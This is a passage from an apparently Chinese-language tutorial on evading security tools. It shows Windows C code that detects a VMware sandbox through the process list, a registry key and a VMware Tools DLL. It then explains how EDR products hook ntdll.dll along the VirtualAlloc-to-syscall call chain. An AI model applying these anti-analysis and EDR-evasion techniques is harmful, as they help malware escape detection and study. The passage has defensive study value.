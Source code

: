 ```
    HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    BOOL bResult = Process32First(hProcessSnap, &amp;pe32);
    while (bResult) {
        char ss_Name[MAX_PATH] = { 0 };
        WideCharToMultiByte(CP_ACP, 0, pe32.szExeFile, -1, ss_Name, sizeof(ss_Name),
    NULL, NULL);
        //printf("%s\n", ss_Name);
        if (check(ss_Name) == -1)
            return false;
        bResult = Process32Next(hProcessSnap, &amp;pe32);
    }
    return true;
}

bool checkReg() {
    HKEY hkey;
    if (RegOpenKey(HKEY_CLASSES_ROOT, L"\\Applications\\VMwareHostOpen.exe",
  &amp;hkey) == ERROR_SUCCESS) {
        return true;
    }
    else {
        return false;
    }

}

bool checkfile() {
    WIN32_FIND_DATAW findFileData;
    if (FindFirstFileW(L"C:\\Program Files\\VMware\\VMware Tools\\VMToolsHook.dll", 
  &amp;findFileData) == INVALID_HANDLE_VALUE) 
        return false;
}

```

#### 4.和edr的一些对抗

像x擎或者是某藤云的一些edr产品会对ntdll.dll进行hook挂钩

如何理解?

先介绍一下windowsapi的调用链

我们常用的一些windowsapi函数都存储在kernel32.dll的动态链接库中

比如说我们使用VirtualAlloc函数,那么他是如何被一步步调用的呢

首先是在3环,即用户层的 kernel32.dll中调用kernelVirtualAlloc

然后kernelVirtualAlloc去调取ntdll中的NtVirtualAlloc

最后NtVirtualAlloc通过syscall的方式去内存层实现分配内存

而杀软会对这些dll文件进行hook监控
